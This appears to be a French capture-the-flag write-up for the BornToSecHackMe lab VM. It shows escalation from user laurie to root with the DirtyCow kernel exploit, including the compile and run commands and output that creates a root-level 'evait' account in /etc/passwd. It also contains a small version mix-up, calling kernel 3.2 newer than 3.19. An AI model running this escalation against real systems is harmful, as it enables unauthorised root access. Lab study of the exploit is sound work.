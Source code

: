 ### PRECISION

Comme pour le premier writeup les adresses IP peuvent changer donc il faudra bien adapter les IP en fonction du reseau.

### laurie

Pour cet exploit reprenons directement après etre log en tant que lmezard.

```
ssh laurie@192.168.1.27
```

En cherchant un peu sur internet les differentes vulnerabilités que presente le noyau linux (et surtout le notre, c'est ce qui nous interesse), nous trouvons bon nombre d'articles.

Un compte GitHub liste pas mal de payloads en ce qui concerne les privileges escalation :

[Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

Tout en bas nous voyons plusieurs exploits disponibles et celui qui va nous interesser ici sera le CVE-2016-5195 (DirtyCow) Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

En effet chez nous la version est plus recente que 3.19 :

```
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/linux
```

On va donc essayer d'utiliser un des exploits presents ici :

[PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

Celui qui nous interesse ici est le dernier qui va generer un nouveau fichier /etc/passwd tout en gardant le vrai intact pour qu'on le restaure après.

Il nous suffit de copy/paste le code puis de le compiler et d'executer le programme pour pouvoir se log en tant que root.

```
laurie@BornToSecHackMe:/tmp$ gcc dirty.c -o dirty -pthread -lcrypt
laurie@BornToSecHackMe:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
evait:fiY9IH9EEmntk:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password pwn.


DON'T FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

Done! Check /etc/passwd to see if the new user was created
You can log in with username evait and password pwn.


DON'T FORGET TO RESTORE /etc/passwd FROM /tmp/passwd.bak !!!

laurie@BornToSecHackMe:/tmp$ su evait
Password:
evait@BornToSecHackMe:/tmp# id
uid=0(evait) gid=0(root) groups=0(root)
evait@BornToSecHackMe:/tmp# cd /root
evait@BornToSecHackMe:~# cat README
CONGRATULATIONS !!!!
To be continued...
```

Et voila encore une fois nous sommes root !
